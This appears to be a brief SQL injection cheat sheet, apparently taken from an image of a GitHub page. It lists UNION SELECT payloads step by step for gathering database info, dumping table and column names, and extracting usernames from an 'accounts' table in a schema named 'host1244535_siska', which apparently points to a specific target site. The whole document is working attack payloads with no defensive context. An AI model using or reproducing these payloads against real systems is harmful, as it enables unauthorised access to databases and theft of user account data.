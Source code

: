 info gathering 
```
1'union select 1,2,3,databases(),user(),version(),7 -- -
```

tables name dump
```
'union select 1,2,3,4,(SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema = 'host1244535_siska'),version(),7 -- - 
```

column dump
```
'union select 1,2,3,4,(SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_schema = 'host1244535_siska'),version(),7 -- -
```

table data dump
```
'union select 1,2,3,4,(SELECT GROUP_CONCAT(username) from host1244535_siska.accounts ),version(),7 -- -
```
or
```
'union select 1,2,3,4,(SELECT username from host1244535_siska.accounts ),version(),7 -- -
```